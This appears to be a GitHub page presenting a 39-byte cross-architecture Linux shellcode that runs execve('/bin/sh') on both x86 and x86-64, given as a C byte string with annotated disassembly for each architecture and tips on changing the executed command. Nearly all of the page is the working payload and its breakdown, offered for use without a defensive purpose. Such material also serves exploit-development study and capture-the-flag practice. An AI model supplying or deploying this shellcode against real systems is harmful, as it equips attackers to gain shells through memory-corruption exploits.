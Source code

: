 This shellcode executes `execve("/bin/sh", {"/bin/sh", 0}, 0)`, on both x86 and
x86-64 linux.

Note: shortly after writing this, I came across an incredibly similar shellcode,
which is a byte shorter: https://gist.github.com/resilar/8771d94f8774c77f91cea99bf1a66ec8

```c
"\x48\x31\xc0\x50\x50\x5a\xeb\x12\x5f\x57\x54\x40\x75\x05\xb0\x3b\x5e\x0f\x05\xb0\x0b\x89\xfb\x59\xcd\x80\xe8\xe9\xff\xff\xff/bin/sh"
```

(39 bytes, including null)

```
x86 disas:
   0:   48                      dec    eax
   1:   31 c0                   xor    eax,eax
   3:   50                      push   eax
   4:   50                      push   eax
   5:   5a                      pop    edx
   6:   eb 12                   jmp    0x1a
   8:   5f                      pop    edi
   9:   57                      push   edi
   a:   54                      push   esp
   b:   40                      inc    eax
   c:   75 05                   jne    0x13

    ...

  13:   b0 0b                   mov    al,0xb
  15:   89 fb                   mov    ebx,edi
  17:   59                      pop    ecx
  18:   cd 80                   int    0x80
  1a:   e8 e9 ff ff ff          call   0x8
  1f:   "/bin/sh"

x86-64 disas:
   0:   48 31 c0                xor    rax,rax
   3:   50                      push   rax
   4:   50                      push   rax
   5:   5a                      pop    rdx
   6:   eb 12                   jmp    0x1a
   8:   5f                      pop    rdi
   9:   57                      push   rdi
   a:   54                      push   rsp
   b:   40 75 05                rex jne 0x13
   e:   b0 3b                   mov    al,0x3b
  10:   5e                      pop    rsi
  11:   0f 05                   syscall 

    ...

  1a:   e8 e9 ff ff ff          call   0x8
  1f:   "/bin/sh"
```

There is one catch however, the shellcode must be followed by a null byte,
which limits its universal usefulness.

One big advantage is that the command executed can be modified trivially, just
modify the end of the shellcode.
